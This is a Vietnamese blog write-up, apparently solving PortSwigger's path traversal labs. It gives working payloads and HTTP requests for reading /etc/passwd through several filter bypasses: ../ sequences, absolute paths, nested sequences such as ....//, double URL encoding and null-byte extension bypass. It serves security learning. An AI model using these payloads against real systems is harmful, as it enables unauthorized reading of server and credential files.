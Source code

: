 ```yaml
---
title: "[PortSwigger Lab] - Path Traversal"
description: Solution of Path Traversal on PortSwigger Lab
date: 2025-06-01 11:00:00 +0700
categories: [Cyber ​​Security, Web Pentest]
tags: [portswigger, burpsuite, labs, web, vulnerability, path traversal, directory traversal]   
pin: false
comments: true
image:
    path: https://raw.githubusercontent.com/waibui/blog-assets/refs/heads/main/imgs/posts/2025-06-01-portswigger-lab-path-traversal/path-traversal.png
    alt: Path Traversal
---
```


## Introduction
--- 

**Path traversal** còn được gọi là **Directory traversal**. Các lỗ hổng này cho phép kẻ tấn công đọc các tệp tùy ý trên máy chủ đang chạy một ứng dụng. Điều này có thể bao gồm:
- Application code and data.
- Credentials for back-end systems.
- Sensitive operating system files.

Trong một số trường hợp, kẻ tấn công có thể ghi vào các tệp tùy ý trên máy chủ, cho phép chúng sửa đổi dữ liệu hoặc hành vi ứng dụng và cuối cùng kiểm soát toàn bộ máy chủ.

## Solve Path Traversal Lab
---
- **Relative path:** `../../../etc/passwd`
- **Absolute path:** `/etc/passwd`
- **View images**: Filter settings > Filter bt MINE type > enable `images`
### Lab: File path traversal, simple case
- Mở 1 image bất kỳ
```
https://0af90002046a785a82be974700ff007e.web-security-academy.net/image?filename=8.jpg
```

- Thay đổi đường dẫn của image
```
https://0af90002046a785a82be974700ff007e.web-security-academy.net/image?filename=../../../etc/passwd
```

- Điều này khiến ứng dụng đọc từ đường dẫn tệp sau
```
/var/www/images/../../../etc/passwd
```

- Trình tự `../` có giá trị trong một **file path** và có nghĩa là để tăng một cấp trong cấu trúc thư mục. Ba chuỗi liên tiếp `..`:
    - Lần 1:
    ```
    /var/www/../../etc/passwd
    ```
    - Lần 2:
    ```
    /var/../etc/passwd
    ```
    - Lần 3:
    ```
    /etc/passwd
    ```

- Cuối cùng ứng dụng hiển thị nội dung của file `/etc/passwd`
- `/etc/passwd` là một tập tin hệ thống rất quan trọng trong các hệ điều hành **Unix**và **Linux**. Nó lưu trữ thông tin về user trên hệ thống. Dù tên là `"passwd" (password)`, nhưng mật khẩu thực tế không còn được lưu ở đây nữa mà được lưu trong tệp `/etc/shadow` với quyền truy cập hạn chế hơn.
- Truy cập **HTTP history** để xem nội dung

### File path traversal, traversal sequences blocked with absolute path bypass
- `../` đã bị block, cần bypass thông qua **absolute path**
- Mở 1 file ảnh bất kỳ trong tab mới
```
https://0a35004b0379e87d805eb796009c003b.web-security-academy.net/image?filename=33.jpg
```
- Thay đổi tên ảnh bằng **absolute path**: `/etc/passwd`
```
https://0a35004b0379e87d805eb796009c003b.web-security-academy.net/image?filename=/etc/passwd
```
- Truy cập **HTTP history** để xem nội dung

### File path traversal, traversal sequences stripped non-recursively
#### Analysis
Ở lab này, chương trình sẽ loại bỏ các **traversal sequences**, tức:
```
../../../etc/passwd
```
Sẽ trở thành
```
etc/passwd
```
Chương trình sẽ xóa tất cả `../` ra khỏi chuỗi

#### Exploit
Ý tưởng: vẫn để chương trình loại bỏ `../`, nhưng vẫn giữ được đường dẫn tương đối đến `/etc/passwd`
- Payload 1: ..././..././..././etc/passwd
- Payload 2: ....//....//....//etc/passwd
- Payload 3: ....\/....\/....\/etc/passwd

Sau khi chương trình đã loại bỏ `../` hoặc `..\` thì mọi thứ đểù trở thành `../../../etc/passwd`
> **Windows** sử dụng cả `../` và `..\`
{: .prompt-info}

- Thay đổi đường dẫn hình ảnh sử dụng các payload trên.
- Truy cập **HTTP history** để xem nội dung

### Lab: File path traversal, traversal sequences stripped with superfluous URL-decode
#### Analysis
- Để giải quyết lab này, cần phải **encode url** 2 lần
- Mốt số trường hợp webserver decode 1 lần và kiểm tra `../` có tồn tại không để thực hiện logic khác
- Sau khi decode 1 lần, request được gửi đến **Backend** để xử lý, và **Path traversal** xảy ra
#### Exploit
- Gửi request đến **Repeater**, thay đổi đường dẫn
```http
GET /image?filename=../../../etc/passwd HTTP/2
Host: 0a24006d03b4e0b48025dad200d800f9.web-security-academy.net
```

- Bôi đen `../../../`, tại tab **Inspector**, phần **Decoded from** chon ký hiệu `+`
- Ở phần **Decoded from** vửa được tạo, click **select**, chọn **URL encoding**
- Tại đó, nhập lại `../../../`
- Copy nội dung phần **Selected text** và dán vào request
```http
GET /image?filename=..%252f..%252f..%252fetc/passwd HTTP/2
Host: 0a24006d03b4e0b48025dad200d800f9.web-security-academy.net
```

### Lab: File path traversal, validation of start of path
- Mở 1 file ảnh tùy ý ở tab khác và gửi nó đến **Repeater**
- Ta thấy nó chỉ định bắt đầu từ `/var/www/image/filepath`
```http
GET /image?filename=/var/www/images/38.jpg HTTP/2
Host: 0a3c0092041de0d6800dc688002700bb.web-security-academy.net
```
- Thêm **traversal sequence** để chuyển hướng đến **root** rồi trở về **/etc/passwd**
- Thay đổi request để đọc file `/etc/passwd`
```http
GET /image?filename=/var/www/images/../../../etc/passwd HTTP/2
Host: 0a3c0092041de0d6800dc688002700bb.web-security-academy.net
```

### Lab: File path traversal, validation of file extension with null byte bypass
#### Analysis
Trên một số hệ thống cũ hoặc ngôn ngữ xử lý C-style:
Khi chuỗi `../../../etc/passwd%00.png` được truyền vào hàm như `fopen()`:
```c
fopen("../../../etc/passwd\0.png", "r");
```
→ Hệ thống dừng đọc chuỗi tại null byte (\0). Tức là chỉ mở file: `../../../etc/passwd`, phần `.png` sau `%00` không còn ảnh hưởng.
#### Exploit
Tương tự như các lab trên nhưng gửi với request có `null byte (%00)`
```http
GET /image?filename=../../../etc/passwd%00.png HTTP/2
Host: 0a9d00870462f85880c9b2e400c6002c.web-security-academy.net
```

- Một số hệ thống sẽ filter dựa trên `extension`, trường hợp này là `.png`
- Nên sử dụng `null byte` để tách bỏ `extension` ra, đọc file `/etc/passwd`

---
Goodluck! 🍀🍀🍀
